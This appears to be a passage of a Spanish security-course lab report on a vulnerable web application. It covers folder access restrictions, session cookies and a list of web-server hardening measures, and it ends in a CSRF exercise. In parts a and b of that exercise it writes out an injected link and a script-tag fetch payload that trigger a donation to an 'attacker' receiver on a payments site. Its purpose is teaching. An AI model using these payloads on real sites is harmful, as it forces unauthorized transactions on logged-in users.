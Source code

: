 #### **c) Accesibilidad “register.php”**

Para que este código deje de ser accesible al resto de usuarios, debería encontrarse en la carpeta “private”. 

#### **d) Accesibilidad carpeta “private”**

Para que esta carpeta no sea accesible al resto de usuarios, pueden configurarse restricciones desde el servidor.

#### **e) Suplantación de usuarios**

Una vez implantados los cambios mencionados anteriormente, el usuario estaría asegurado ya que depende de la cookie de sesión que es única para cada usuario.

### **Parte 4 \- Servidores web**

Para reducir el riesgo de ataques en el servidor web, pueden implementarse medidas tanto sobre el sistema operativo, como en la organización o algunos aspectos más técnicos:

1. Mantener el software actualizado.  
2. Configurar correctamente el servidor para evitar puertos innecesarios o cuentas predeterminadas.  
3. Utilizar una autenticación más segura.  
4. Configurar un firewall.  
5. Cifrar conexiones remotas utilizando protocolos como SSH o HTTPS en lugar de HTTP.  
6. Realizar monitorización de las acciones que realizan los usuarios.  
7. Realizar copias de seguridad.  
8. Cifrar datos sensibles.  
9. Mejorar la seguridad de la base de datos.

### **Parte 5 \- CSRF**

#### **a) Editar jugador**
|  |  |
| :---- | :---- |
| En el campo… | Team name |
| Introduzco… | \<br/\> \<br/\> \<br/\> \<a href="http://web.pagos/donate.php?amount=100\&receiver=attacker"\>Profile\</a\> |

#### **b) Comentario enlace**

|  |  |
| :---- | :---- |
| En el campo… | Write your comment |
| Introduzco… | \<script\>fetch(‘http://web.pagos/donate.php?amount=100\&receiver=attacker’)\</script\> |

#### **c) Visualización enlace**

Para verificar que se ejecute el enlace, habrá que comprobar que la cookie que contiene el id de sesión no está vacío, lo que significa que el usuario ha iniciado sesión.

#### **d) Página “donate.php”**

